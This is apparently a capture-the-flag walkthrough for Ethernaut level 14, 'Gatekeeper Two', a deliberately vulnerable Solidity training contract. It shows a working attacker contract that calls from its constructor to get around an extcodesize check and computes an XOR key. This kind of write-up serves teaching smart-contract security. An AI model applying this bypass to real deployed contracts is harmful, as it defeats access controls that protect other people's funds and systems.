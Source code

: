 # Level 14: Gatekeeper Two

This is the level 14 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
- [Solidity Assembly](https://docs.soliditylang.org/en/v0.4.23/assembly.html) & [caller & extcodesize](https://docs.soliditylang.org/en/v0.4.23/assembly.html#opcodes) opcodes.

## Hack
Given contract:

```
contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

`player` has to set itself as `entrant`, like the previous level.

We are going to implement `GatePassTwo` contract to attack:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    ...
}
```

### gateOne
This is exactly same as level 4. An intermediary contract (`GatePassTwo` here) will be used to call `enter`, so that `msg.sender` != `tx.origin`.

### gateTwo
Second check involves solidity assembly code - specifically `caller` and `extcodesize` functions. `caller()` is nothing but sender of message i.e. `msg.sender` which will be address of `GatePassTwo`.
`extcodesize(addr)` returns the size of contract at address `addr`. So, `x` is assigned the size of the contract at `msg.sender` address. But size of a contract is always going to be non-zero. And to pass check, `x` must zero!

Here's the trick. See the footer note of Ethereum [Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf) on page 11:<br>
_"During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account..."_

Rings some bells? During creation/initialization of the contract the `extcodesize()` returns 0. So we're going to put the malicious code in `constructor` itself. Since it is the `constructor` that runs during initialization, any calls to `extcodesize()` will return 0. Update `GatePassTwo` accordingly (ignore `key` for now):

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    constructor(address _gateAddr) public {
        bytes8 key = bytes8(uint64(address(this)));
        address(_gateAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
```
This will pass `gateTwo`.

### gateThree
Third check is basically some manipulation with `^` XOR operator.

As is visible from the equality check:
```
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
```

`_gateKey` must be derived from `msg.sender` (in `GatekeeperTwo`), which is same as `address(this)` in our `GatePassTwo`.

The `uint64(0) - 1` on RHS is max value of `uint64` integer (due to underflow). Hence, in hex representation:
```
uint64(0) - 1 = 0xffffffffffffffff
```

By nature of XOR operation:
```
If, X ^ Y = Z
Then, Y = X ^ Z
```

Using this XOR property, it can be deduced that:
```
uint64(_gateKey) == uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff)
```

So, correct `key` can be calculated in solidity as:
```solidity
bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff))
```

Final update to `GatePassTwo`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    constructor(address _gateAddr) public {
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff));
        address(_gateAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
}
```

Now deploy `GatePassTwo` with address of `GatekeeperTwo`, which will result in execution of malicious `constructor` code. And that will eventually register `player` as `entrant`.

Passed!